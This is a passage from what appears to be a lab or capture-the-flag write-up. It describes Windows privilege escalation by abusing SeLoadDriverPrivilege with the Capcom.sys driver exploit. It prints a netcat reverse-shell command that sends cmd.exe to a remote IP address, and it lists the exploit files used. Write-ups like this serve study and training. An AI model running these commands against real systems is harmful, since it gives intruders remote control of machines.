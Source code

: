 Using meterpreter's `sysinfo` command I was able to verify that this version of Windows was x64-based.

### Getting a shell

Going back to the article I found earlier, I found a few links to files needed for exploiting the `SeLoadDriverPrivilege` privilege.

* [https://github.com/TarlogicSecurity/EoPLoadDriver/](https://github.com/TarlogicSecurity/EoPLoadDriver/)
* [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom)

![](/assets/img/exploit-capcom.png)

Following the instructions, I had to compile the two files on Windows \(with a matching x64 architecture\).  I customized the exploit a bit to have it call a simple .bat script I wrote to send me a netcat reverse shell. The four files needed for this to work were:

1. Capcom.sys
2. EOPLOADDRIVER.exe
3. ExploitCapcom.exe
4. My .bat script reverse shell

```text
C:\Windows\Temp\nc.exe 10.10.15.74 55541 -e cmd.exe
```

I uploaded the four files required to `C:\temp` and tried to exploit the system, but for some reason I was not able to get back a shell.  It took me a bit of troubleshooting, but I managed to track down the \(very simple\) reason why.  
